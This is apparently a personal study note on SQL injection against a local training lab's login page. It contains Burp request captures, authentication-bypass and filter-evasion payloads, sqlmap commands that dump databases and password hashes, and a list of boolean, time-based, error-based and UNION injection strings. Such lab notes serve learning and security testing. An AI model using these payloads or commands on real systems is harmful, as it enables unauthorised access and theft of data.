 
[[1. Introduction to SQL Injection]]
[[1. SQLMAP]]

## SQL Injection Checklist for Login Page : 

1. **Test Default Login :**

	- Since i am in the lab, the default creds are : `jeremy:jeremy`.

	- **In Burp Suite :**

```

## REQUEST

POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy

## RESPONSE


HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 04:48:21 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Sat, 02-Aug-2025 05:48:21 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


```

2. **Confirm SQLi Vulnerability (Authentication Bypass) :**

```
## - Test Basic Bypass in Repeater:

username=admin' OR 1=1#&password=jeremy
username=jeremy' OR 1=1#&password=jeremy
username=jeremy&password=' OR ''='# 
username=admin' OR '1'='1 -- &password=jeremy
username=jeremy%27%20OR%201=1%23&password=jeremy (encoded)

## - Handle Filters:
	- If ' is blocked, try:
	
username=admin" OR "1"="1#&password=jeremy
username=jeremy%27%20OR%20%271%27=%271%23&password=jeremy

	- If spaces are blocked, use /**/:
	
username=admin'/**/OR/**/1=1#&password=jeremy
```


## Use SQLMAP : 

```
POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy
```

1. Copy the req from Burp Suite and paste it in the txt file. `sql_req.txt`
2. `sqlmap -r request.txt --level=5 --risk=3 --batch --dump
	1. *If u have the cookie token from the request. Then you can add that cookie in the sqlmap cmd.*
	2. `sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=6967cabefd763ac1a1a88e11159957db" --level=5 --risk=3 --dump --batch`

```
#### Use with parameters:

- `--dbs` → list databases
- `--tables -D <db>` → list tables in a DB
- `--columns -T <table> -D <db>` → list columns
- `--dump -T <table> -D <db>` → dump data
- `--passwords` → try to get password hashes


```


## SQLi Cookie Injection Payload Arsenal + Attack Scenarios 

#sql-injection-payloads

### ✅ **Logic-Based SQLi (Boolean)**

`' AND 1=1 -- ' AND 1=2 -- ' OR '1'='1 ' OR 1=1 -- ' OR 1=2 -- ' OR 'a'='a ' OR 'a'='b`

---
### ⏱️ **Time-Based Blind SQLi (MySQL, PostgreSQL, MSSQL)**

`' OR SLEEP(5) -- ' AND SLEEP(5) -- ' OR IF(1=1, SLEEP(5), 0) -- ' OR IF(ASCII(SUBSTRING((SELECT user()),1,1))=114, SLEEP(5), 0) -- '; WAITFOR DELAY '0:0:5' --`

---
### 💥 **Error-Based SQLi**

`' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(CHAR(88,89,90), FLOOR(RAND()*2)) a FROM information_schema.tables GROUP BY a) b) -- ' AND updatexml(1, concat(0x7e, user()), 1) -- ' AND extractvalue(1, concat(0x7e, version())) --`

---
### 🎯 **UNION-Based SQLi**

`' UNION SELECT NULL, NULL, version() -- ' UNION SELECT NULL, NULL, user() -- ' UNION SELECT NULL, NULL, database() --`

> These require knowing the correct number of columns and output reflection.